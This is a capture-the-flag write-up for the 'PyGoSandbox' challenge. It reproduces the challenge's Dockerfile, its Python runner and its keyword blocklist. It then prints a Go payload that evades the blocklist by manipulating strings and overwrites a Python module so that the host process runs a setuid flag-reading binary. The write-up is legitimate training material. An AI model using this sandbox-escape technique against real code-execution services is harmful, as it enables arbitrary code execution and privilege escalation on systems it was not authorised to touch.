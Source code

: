# CTF Writeup: PyGoSandbox

## Challenge Information

- **Challenge Name:** PyGoSandbox
- **Challenge level:** Hard (3 solves)
- **Author:** zAbuQasem
- **CTF Event:** CATF 23
- **Category:** MISC

## Description

I'm back stronger than ever, after failing to build a secure calculator, i made a life changing career shift!, now i'm building top notch Golang sandboxes that no one with IQ lower than 0.567 can bypass. Can you?!

## Solution

### Initial Analysis

1- We take a look at the Dockerfile to know what we have to do, we will find that the real flag is in the `/root` dir and there is a fake flag as env variable and there is a `/FlagReader` which we have to execute to get the flag.

**Dockerfile**
```
FROM golang:alpine@sha256:6f592e0689192b7e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad
ENV CGO_ENABLED=0
ENV PYTHONUNBUFFERED=1
ENV FLAG="FLAG{TrY_H4rD3R_!!!}"

RUN apk add --update --no-cache build-base gcc python3 socat && ln -sf python3 /usr/bin/python && python3 -m ensurepip 
RUN pip3 install --no-cache --upgrade pip setuptools rich

WORKDIR /app
COPY src .
COPY FlagReader.c /FlagReader.c
RUN gcc /FlagReader.c -o /FlagReader && rm /FlagReader.c
RUN chmod 555 challenge.py && chmod +xs /FlagReader

RUN echo "CATF{FAKE_FLAG_FOR_TESTING}" > /root/flag.txt
RUN adduser -D meow && chown -R meow /app
USER meow

ENTRYPOINT ["python3","challenge.py"]

```

2- When we inspect the `encrypt.py` file we will find that it encrypts the fake flag. **intersting**

**encrypt.py**

```
import hashlib
from os import getenv
from rich.console import Console

meow = Console()
def EncryptFlag():
	# MEOW
	flag =  getenv("FLAG")
	digest = hashlib.sha256(flag.encode()).hexdigest()
	meow.print(f"[white]Encrypted Flag[/white]: [blue]{digest}[/blue]")

```

3- Lets inspect the `challenge.py` it blocks some words`BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]` and sice it blocks the os word we can't do what we want directly so we have to find another indirect way

**Challenge.py**

```
import subprocess
from rich.console import Console
import sys
sys.tracebacklimit = 0

meow = Console()

def GoRunner():
    try:
        BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]
        meow.print("[bold white][+] Welcome to the safest Golang Sandbox compiler in the wild!...[/bold white]")
        meow.print("[green]\[🐱] Meow your Go code Below Ending with 'EOF' (Spam enter to finish):[/green]")
        go_code = ""
        while True:
            line = input()
            if line == "EOF":
                break
            go_code += line + "\n"
        
        if any([b in go_code for b in BLOCKLIST]):
            meow.print("[bold red]\[!] Hacker Detected!![/bold red]")
            exit(2)
        with open('temp.go', 'w') as file:
            file.write(go_code)

        run_code = subprocess.Popen(['go', 'run','temp.go'],stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
        run_code, compile_error = run_code.communicate()
        meow.print(run_code.decode())
        subprocess.run(['rm', 'temp.go'])
    except Exception:
        pass


def EncryptFlag():
    from encrypt import EncryptFlag
    EncryptFlag()
    

def main():
    try:
        GoRunner()
        EncryptFlag()
    except Exception:
        pass

main()

```

### Finding Clues

1- We can use the `io` package which can read and write files... but even if we can read we cant read the flag since we don't have the permission and even if we can write a file we can't execute it 

2- The challenge imports the `EncryptFlag` function from the encrypt.py file and executes it after our go code gets executed **The Ultra Major Clue**
```
def EncryptFlag():
    from encrypt import EncryptFlag
    EncryptFlag()
    
```

### Exploitation

We can overwrite the `encrypt.py` with our python code and let the challenge it self exectute it so to craft our payload first thing we need is to write a python code to execute the `/FlagReader` inside a function called `EncryptFlag()` but we have a problem here which is we cant use the word `Flag` in our payload and to mitigate this problem we can use `flag` and then capitalize the `F` for the file name we can use the `replace()` function and for the function name we can use `globals()["Encryptflag".replace("f", "F")] = Encryptflag` so now we are done form the python code. The second thing we need is to write a go code to overwrite the `encrypt.py` and as we said eralier we can use `io/ioutil` to do that, so now we are ready to send our payload and get our flag

### payload

```
package main

import (
	"fmt"
	"io/ioutil"
)

func main() {
	// The file where to write data
	filePath := "encrypt.py"

	// The data you want to write to the file
	data := `
import subprocess
def Encryptflag():
	flag = "/flagReader"
	flag = flag.replace("f", "F")
	result = subprocess.check_output([flag], universal_newlines=True)
	print(result)
globals()["Encryptflag".replace("f", "F")] = Encryptflag
`

	// Write data to the file
	err := ioutil.WriteFile(filePath, []byte(data), 0644)
	if err != nil {
		fmt.Println("Error writing to file:", err)
		return
	}

	fmt.Println("Data written to the file successfully.")
}
EOF
```

**FLAG**
`CATF{GoL4ng_S4nDb0x_xB0x_1337_e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad__2@23_}`
